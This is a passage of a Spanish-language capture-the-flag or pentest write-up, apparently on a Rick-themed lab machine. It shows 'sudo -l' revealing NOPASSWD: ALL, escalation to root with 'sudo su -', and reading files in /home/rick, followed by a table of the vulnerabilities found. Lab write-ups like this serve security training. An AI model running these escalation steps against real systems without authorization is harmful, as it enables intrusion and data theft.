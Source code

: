 **Hallazgos Relevantes:**

- Directorio `/home/rick/` contenía archivos críticos.
- Usuario `www-data` tenía permisos limitados.

### **Escalada de Privilegios**

Se investigó la posibilidad de escalar privilegios mediante el comando `sudo`:

```bash
sudo -l
```

**Resultado:**

```bash
Matching Defaults entries for www-data on ip-10-10-238-80:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-10-238-80:
    (ALL) NOPASSWD: ALL
```

**Explotación:**

- Se aprovechó la configuración insegura de sudo para obtener acceso root sin contraseña:

  ```bash
  sudo su -
  ```

**Verificación:**

```bash
whoami
```

```bash
root
```

### **Recuperación de Información Sensible**

Con acceso root, se procedió a recuperar todos los ingredientes requeridos:

```bash
ls -la /home/rick/
cat /home/rick/second\ ingredients
cat /home/rick/another_important_file
```

---

## 📊 **5. Hallazgos de Seguridad**

### **Vulnerabilidades Críticas Identificadas**

| Nivel | Vulnerabilidad | Impacto | Estado |
|-------|----------------|---------|--------|
| Crítico | Command Injection en el Command Panel | Acceso remoto completo al sistema | No mitigado |
| Alto | Credenciales débiles expuestas | Acceso no autorizado al panel de administración | No mitigado |
| Alto | Configuración insegura de sudo (NOPASSWD: ALL) | Escalada de privilegios trivial | No mitigado |
| Medio | Información sensible expuesta en código fuente y robots.txt | Facilita la autenticación no autorizada | No mitigado |
